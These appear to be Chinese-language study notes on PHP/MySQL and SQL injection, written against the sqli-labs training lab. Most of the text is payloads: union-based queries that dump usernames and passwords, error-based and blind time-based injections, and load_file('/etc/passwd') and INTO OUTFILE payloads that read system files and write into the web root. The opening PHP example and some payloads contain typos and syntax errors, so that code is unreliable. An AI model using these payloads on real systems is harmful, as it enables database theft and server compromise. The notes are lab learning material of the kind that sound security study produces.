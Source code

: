 #### 1、sql标准流程
```php
<?php
$servername = "localhost";
$username = "root";
$password = "root"
$dbname = "hh"	// 库名

$con = new mysqli($servername, $username, $password, $dbname);

if($con->connect_error){
    die("...");
}

//查
$sql = "SELECT * FROM table1 WHERE id = 2";

// 执行sql语句并返回到result变量中
$result = $con->query($sql);

if($result->num_rows > 0){
    // 穷举
    while($row = $result->fetch_assoc()){
        echo $row['username'].'.............'.$row['password'].<br/>
    }
}

// 增
$sql = "INSERT INTO tables (id, username, password) VALUES
	(21, 'test1', 'tttt')"

if($con -> query($sql) === TURE){
    echo '执行成功!!!';
}
else{
    echo '执行失败...'.$con->error;
}

//改
$sql = "UPDATE table1 SET password = '1111'
	WHERE username = 'xiaohong'";

if($con -> query($sql) === TURE){
    echo '执行成功!!!';
}
else{
    echo '执行失败...'.$con->error;
}

// 删
$sql = "DELETE FROM table1 WHERE id = 21";

if($con -> query($sql) === TURE){
    echo '执行成功!!!';
}
else{
    echo '执行失败...'.$con->error;
}

// 断开数据库
$con->close();
?>
```

#### 2、SQL注入

###### sql小知识：mysql -u[用户名] -p[密码]
###### 查看所有的数据库：show databases;
###### 使用某个数据库名：use [数据库名];
###### 查看此库里有什么表：show tables;
##### 步骤1：推断数据库的语法
```
SELECT * FROM ... where id = '参数' limit 0, 1;
SELECT * FROM ... where id = "参数" limit 0, 1;
```
##### 步骤2：让他报错，显示自己的闭合方式
```
闭合方式的可能
' " ') ") )
```
##### 步骤3：验证目标数据库的参数闭合方式
```
?id = 1' limit 0, 1 --+  // --+的作用为将后面的直接注释掉
```
##### 步骤4：确定有多少列
```
?id = 1' order by 10 limit 0, 1 --+ // 二分法求的多少列
```
##### 步骤5：有哪几列显示在网页上（联合查询，前面的参数必须让数据库报错，显示报错位）
```
?id = -1' union select 1, 2, 3 limit 0, 1 --+
```
##### 步骤6：刺探数据库的内部内容
```
?id = -2' union select 1, database(), 3 limit 0, 1 --+
```
###### 注：information_schema是数据库自带的，相当于数据库的户口本
###### information_schema的tables里面保存着所有数据库的库名和自己的表
###### information_schema的columns保存着所有数据库的库名、列名、表名的所有对应关系
```
?id=-2' union select 1, table_name ,3 from information_schema.tables where table_schema = 'security' limit 0, 1--+

?id=-2' union select 1, group_concat(table_name) ,3 from information_schema.tables where table_schema = 'security' --+
```
##### 步骤7：查询表中的列
```
?id=-2' union select 1, group_concat(column_name) ,3 from information_schema.columns where table_schema = 'security' and table_name = 'users'--+
``` 
##### 步骤8：查询内容
```
-2' union select 1, group_concat(username), group_concat(password) from users --+
```

#### 3、报错注入(less5-6)

###### 小知识：

```php
SELECT count(*) FROM table1 // 计算table1中有多少个结果
SELECT floor(rand() * 2) // 取一个随机的0-1整数
    
// 0x3a 十六进制的:
select concat(0xa3, 0x3a, (select database()), 0x3a, 0x3a) a;	// 输出 ::库名::，并取别名a

//报错写法
select count(*), concat(0x3a, 0x3a, select(database()), 0x3a, 0x3a, floor(rand() * 2))a from table1 group by a
```

##### 写法：

```php
?id=1' AND (select 1 from (
	select count(*), 
	concat(0x3a, 0x3a, (select database()),0x3a, 0x3a, floor(rand() * 2))a 
from information_schema.tables group by a) b) --+

?id=1' AND (select 1 from (
	select count(*), 
	concat(0x3a, 0x3a, (select table_name from information_schema.tables where table_schema = 'security' limit 0, 1),0x3a, 0x3a, floor(rand() * 2))a 
from information_schema.tables group by a) b) --+
    
    
// 简单方法
?id = 1' AND extractvalue(1, concat(0x7e, (select database()), 0x7e)) --+
?id = 1' AND updatexml(1, concat(0x7e, (select database()), 0x7e), 1) --+
```

#### 4、bool型盲注 less8

```
不显示错误，也不显示任何数据库内容
记录下报错显示
?id = 1 正常
?id = 1\ 不正常
?id = haha 不正常
?id = 1' --+ 正常
?id = 1 AND 0 不正常
?id = 1 AND 1 正常
?id = 1 AND 1 < 2 正常
?id = 1 AND 1 > 2 不正常

?id = 1 AND (select assic(substr(database(), 1, 1)) = 115) 截取表名第一个字符对应的assic值和104是否相等，判断database的内容

?id = 1 AND (select assic(substr((select table_name from information_schema where table_schema = database() limit 0, 1), 1, 1)) = 115)
```

#### 5、bool型时间盲注

```php
id = 2' AND sleep(10) // 如果正确，则睡十秒后反应

id = 2' AND if((select substr(database(), 1, 1)) = 'e', sleep(5), null)  // 如果正确，则睡5秒，否则不返回
```

#### 6、intooutfile注入

```sql
# 把取出的数据保存在某个文件中
select * from table1 into outfile "D:/phpstudy_pro/WWW/a.txt";		# windows
select * from table1 into outfile "/var/www/html/a.txt";			# linux

select * from table1 limit 0, 1 into dumpfile "c:/a.txt"

# 加载某个文件并显示
select load_file("/etc/passwd");

# 加载文件并转存
select load_file("/etc/passwd") into outfile "D:/phpstudy_pro/WWW/a.txt"
```

```php
?id=-2')) union select 1, database(), 3 into outfile "D:/phpstudy_pro/WWW/sqli-labs-master/Less-7/a.txt"
```
